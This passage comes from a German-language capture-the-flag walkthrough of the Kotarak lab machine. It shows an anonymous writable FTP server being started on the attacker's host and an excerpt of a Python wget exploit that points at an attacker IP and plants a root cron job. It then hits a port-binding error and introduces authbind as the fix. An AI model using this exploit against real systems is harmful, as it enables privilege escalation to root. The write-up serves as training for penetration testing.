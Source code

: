```shell
root@kali:~/kotarak/ftptest# python -m pyftpdlib -p21 -w
/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:244: RuntimeWarning: write permissions assigned to anonymous user.
RuntimeWarning)
[I 2018-03-14 19:17:49] >>> starting FTP server on 0.0.0.0:21, pid=11282 <<<
[I 2018-03-14 19:17:49] concurrency model: async
[I 2018-03-14 19:17:49] masquerade (NAT) address: None
[I2018-03-14 19:17:49] passive ports: None
```

Kopieren wir nun den exploit auf Kotarak.

```shell
atanas@kotarak-dmz:/root$ vi exploit.py

#!/usr/bin/env python

[...]

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.15.158'
FTP_PORT = 21

ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
print "FTP is down :( Exiting."
exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

hadler.serve_forever()
```

Bei **FTP_HOST** müssen wir unsere IP-Adresse eintragen.

```shell
atanas@kotarak-dmz:/root$ python exploit.py
[...]
soket.error: [Errno 13] Permission denied
```

Wir können den Exploit nicht ausführen, da die ersten 1024 Ports für **root** reserviert sind.

Es gibt allerdings einen einfachen Trick wie wir dies umgehen können und zwar [Authbind](https://en.wikipedia.org/wiki/Authbind)!
